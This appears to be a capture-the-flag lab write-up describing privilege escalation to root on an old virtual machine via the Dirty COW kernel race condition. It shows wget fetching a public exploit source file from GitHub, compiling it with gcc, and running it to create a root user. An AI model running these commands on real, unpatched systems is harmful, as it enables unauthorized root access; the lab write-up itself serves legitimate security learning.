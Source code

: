 # Writeup 2 - Unclean Bovine (DirtyCOW)

> This writeup starts from [**Writeup 1**](../writeup1/README.md) once we get any shell capable of compiling some C code

The iso for this project is quite old, its vulnerable to the Dirty COW exploit, a privilege escalation vulnerability that exploits a race condition on the copy-on-write mechanism of older kernels (<4.8.3)

## Preparation

To use this exploit, we first need a shell. we follow the "intended solution" till we have access to a user that can compile and run a C file.  
Here we used user `zaz`.

We just use a [known dirty cow script](https://github.com/firefart/dirtycow) that sets a new user `firefart` as root.

## Running the Exploit

to use this exploit this vulnerability we must compile the copied code as indicated in the exploit's repo:
```
$> wget https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
--2025-04-10 21:22:19--  https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4815 (4.7K) [text/plain]
Saving to: ‘dirty.c’

dirty.c               100%[=========================>]   4.70K  --.-KB/s    in 0.001s

2025-04-10 21:22:19 (6.90 MB/s) - ‘dirty.c’ saved [4815/4815]
$> gcc -pthread dirty.c -o dirty -lcrypt
```
\*Note: we can't always use `wget` as depending on the network config the machine might not have an internet, if so, we can just paste from the host machine when we use ssh to connect to the machine

we can then run the executable and wait... And after some time, the user `firefart` is created and we can connect as it, obtaining a root shell - **Congrats us, ~~that was pure talent!!!!~~**
